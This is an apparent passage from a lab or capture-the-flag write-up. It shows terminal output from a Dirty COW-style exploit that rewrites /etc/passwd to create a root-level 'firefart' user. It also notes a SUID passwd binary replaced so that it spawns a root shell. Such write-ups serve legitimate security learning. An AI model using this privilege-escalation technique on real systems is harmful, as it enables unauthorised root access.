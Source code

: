 ```
You can log in with the username 'firefart' and the password 'a'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
user@debian:~$ 
user@debian:~$ 
user@debian:~$ 
user@debian:~$ madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'a'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

Now the 'firefart' user can be logged into for a root shell.

Our of interest I attempted to run the intended exploit on the machine. The machine replaced the `passwd` binary with something that spawns a bash shell. As the SUID bit is already set on that binary, it immediately returns a root shell.